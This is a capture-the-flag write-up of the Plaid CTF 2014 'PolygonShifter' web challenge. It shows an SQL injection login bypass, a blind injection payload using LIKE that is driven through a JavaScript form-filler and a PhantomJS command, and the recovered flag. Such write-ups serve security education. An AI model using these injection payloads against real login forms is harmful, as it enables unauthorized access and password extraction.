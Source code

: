 # Plaid CTF 2014: PolygonShifter

**Category:** Web
**Points:** 100
**Description:**

> The Plague has purchased the newest invention, _Polygon Shifter_ to protect his website. This cutting edge technology is made available by Polygon Security, and they have a demo page on their [website](http://54.204.80.192/). They claim bots can no longer attack the website protected by the Polygon Shifter. Do we need to manually bruteforce the credentials?

## Write-up

Looking into the source code, we learn that there is a ‘secret’ admin account:

```html
<div class="row">
<div class="medium-10 small-centered columns">
    <h3>To demonstrate our technology, we have a form that is protected with our solution. Humans shall pass, but bots will FAIL.</h3>
    <h3>Test account is test / test</h3>
    <!--<h3>For admin interface, admin / ???????</h3>-->
</div>
</div>
```

Let’s try to log in to this admin account. We don’t have the credentials, so we’ll try SQL injection instead:

* Username: `admin' OR 'a'='a`
* Password: `random`

Great, we’re logged in! We are welcomed with the following message:

> Hello, admin!! My password is the flag!

It seems like we need to find the password using SQL injection. Let’s peek into the source code some more:

```html
<h4 class="product-header">A friendly login form; not so friendly for bots!</h4>
<div class="medium-11 small-centered columns">
    <form action="/P0zxeNVpdjH6myRHaWVS" method="POST">
        <label for="" style="text-align:left;">Username</label>
        <input type="text" id="6lyNestBnznos6FxGtGD" name="dVURHUzXGy69u5thdZY0">
        <label for="bFixmywlQhbkX1uC1oI2" style="text-align:left;">Password</label>
        <input type="password" id="bFixmywlQhbkX1uC1oI2" name="SU8IPPqzwozVlQzuaWSA">
        <input class="primary large" type="submit" value="Login">
    </form>
</div>
```

Okay, we cannot use the `id`s or `name`s of these fields to automate the process since they change for every request. No problem — we don’t really need those anyway. The source code doesn’t seem to have any more input fields, so we can just input our username in whatever’s the first input field on the page, and the password into the second field.

```js
var arr = document.getElementsByTagName('input');
arr[0].value = 'admin';
arr[1].value = "' or (password LIKE '%a%') and 1='1";
```

If we manage to successfully log in as admin using these values, we know that our query succeeded and that there’s an `a` in the password. Using a similar technique, we can slowly figure out the password character by character (cfr. [the WhatsCat challenge write-up](https://github.com/ctfs/write-ups/tree/master/plaid-ctf-2014/whatscat)).

We wrote a [PhantomJS](http://phantomjs.org/) script for this named [`client.js`](client.js). Run it as follows:

```bash
$ phantomjs client.js "(password like 'a%')"
```

After some testing, we find that the flag is `n0b0t5_C4n_bYpa5s_p0lYm0rph1Sm`.

## Other write-ups

* <http://balidani.blogspot.com/2014/04/plaidctf-2014-polygonshifter-writeup.html>
* <https://ucs.fbi.h-da.de/writeup-plaidctf-2014-polygonshifter/>
* <https://blog.skullsecurity.org/2014/plaidctf-writeup-for-web-100-blind-sql-injection>
